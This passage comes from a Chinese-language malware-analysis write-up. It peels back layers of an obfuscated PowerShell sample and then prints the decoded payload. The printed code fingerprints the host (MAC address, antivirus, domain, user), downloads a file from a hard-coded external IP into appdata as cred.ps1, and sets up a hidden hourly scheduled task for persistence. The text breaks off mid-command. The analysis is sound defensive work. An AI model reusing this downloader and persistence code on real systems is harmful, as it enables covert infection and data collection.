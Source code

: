 ### 解密第二层

很明显，我们看到有`Invoke-Expression`，直接将`Invoke-Expression`改为`Write-Host`进行调试。

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-02-23/0x03.png)


### 解密第三层

现在获得的代码可读性变得非常低了，但是还是有一定规律可循。

在第83行，有一个大小写混合的`Invoke-Expression`：

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-02-23/0x04.png)

并且`Invoke-Expression`做左边还有一个管道符，直接将代码改为`| Out-File .\tmp.log` ，把结果输出到tmp.log文件中。

### 解密第四层

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-02-23/0x05.png)

第四次好像混淆的更加厉害来，但是不影响我们的分析，先看首行：

```
 . ( $EnV:CoMsPec[4,26,25]-JoIN'')((('[string]3CHav = U'+'ABUAB[string]....
```

其中它是以`. (表达式)(表达式)`来执行的，于是我想到了另外一种函数调用的可能：

```
PS C:\Users\Rvn0xsy> . Write-Host "Rvn0xsy"
Rvn0xsy
PS C:\Users\Rvn0xsy>
```

这样也能执行，所以我判断` . ( $EnV:CoMsPec[4,26,25]-JoIN'')`就是`iex`或者`Invoke-Expression`，我将` . ( $EnV:CoMsPec[4,26,25]-JoIN'')`改为`Write-Host`直接执行：

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-02-23/0x06.png)

最终获得了未混淆的代码。

然后，为了验证我的猜想，我把代码进行更改，获得了`Iex`：

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-02-23/0x07.png)

` . ( $EnV:CoMsPec[4,26,25]-JoIN'')` = `Iex`

## 0x03 行为分析

```
[string]$av = ""[string]$avs = ""[string]$mac = (getmac /FO CSV|Select-Object -Skip 1 -first 1| ConvertFrom-Csv -Header MAC|select-object -expand MAC)$avs = (Get-WmiObject -Namesp
ace root\SecurityCenter2 -Class AntiVirusProduct).displayNameif($avs.GetType().name.IndexOf('Object') -gt -1){for($v = 0; $v -lt $avs.Count; $v++){$av += $avs[$v] + "|"}}else{$av 
= $avs}try{if((Get-Service zhudongfangyu | Sort -Property Status).Status -eq "Running"){$av += 'ZDFY'}}catch{}#[System.Threading.Thread]::Sleep((Get-Random -Minimum 10000 -Maximum
 100000))$path = "$env:temp\\ppp.log"[string]$flag = test-path $path$key = "&mac="+$mac+"&av="+$av+"&ver="+(Get-WmiObject -Class Win32_OperatingSystem).version+"&bit="+(Get-WmiObj
ect Win32_OperatingSystem).OSArchitecture + "&flag2=" + $flag + "&domain=" + (Get-WmiObject win32_computersystem).Domain + "&user=" + $env:USERNAMEtry{$file = "$env:appdata\\Micro
soft\\cred.ps1"$size = (Get-ChildItem $file -recurse | Measure-Object -property length -sum).sum$file2 = "$env:ALLUSERSPROFILE\\Microsoft\\cred.ps1"$size2 = (Get-ChildItem $file2 
-recurse | Measure-Object -property length -sum).sum        if(($size -ne 50731) -and ($size2 -ne 50731)){try{$url = 'http://172.104.177.202/new.dat?xl' + $key(New-Object System.N
et.WebClient).DownloadFile($url,"$file")}catch{}&cmd.exe /c schtasks /create /sc MINUTE /mo 60 /st 07:00:00 /tn Credentials /tr "powershell -nop -w hidden -ep bypass -f %appdata%\
```